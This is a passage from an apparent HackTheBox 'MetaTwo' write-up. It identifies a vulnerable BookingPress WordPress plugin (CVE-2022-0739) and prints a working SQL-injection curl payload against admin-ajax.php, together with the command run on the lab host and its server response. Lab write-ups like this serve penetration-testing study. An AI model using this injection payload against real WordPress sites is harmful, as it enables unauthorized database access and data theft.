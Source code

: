 Looking at the `source-code`, I found a `wp-admin` directory, and all found out that the web-site was using `Booking Press v1.0.10`. So, I decided to check of any exploit for that particular application exists.

![meta-5](https://user-images.githubusercontent.com/87711310/218543582-634e61c2-fdd1-4908-8c2b-995ef6c01b8f.png)


On googling it, I found a recently discovered Booking press vulnerability found in 2022, [CVE-2022-0739](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

![meta-6](https://user-images.githubusercontent.com/87711310/218543595-ee6f9417-0f7a-4ee1-9c52-ae0db76df30a.png)


For the exploit to work, we need some info about `_wpnonce` which can be found in events page source code.

![meta-7](https://user-images.githubusercontent.com/87711310/218543612-1f98dc4a-7ec4-4a8d-af43-006ce9a25a44.png)


Now, we have two options, the first one is to `dump the database manually` or use some automation tool like `sqlmap`. I am doing it with second option.

Before that, we'll need to retrieve tha value of `_wpnonce` parameter. For that, I used the payload mentioned in the CVE mentioned above.

```
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

Now, once you run the command, you'll get an error like shown below.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' 
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 13 Feb 2023 15:06:20 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

{"variant":"error","title":"Error","msg":"Sorry, Your request can not process due to security reason."}  
```
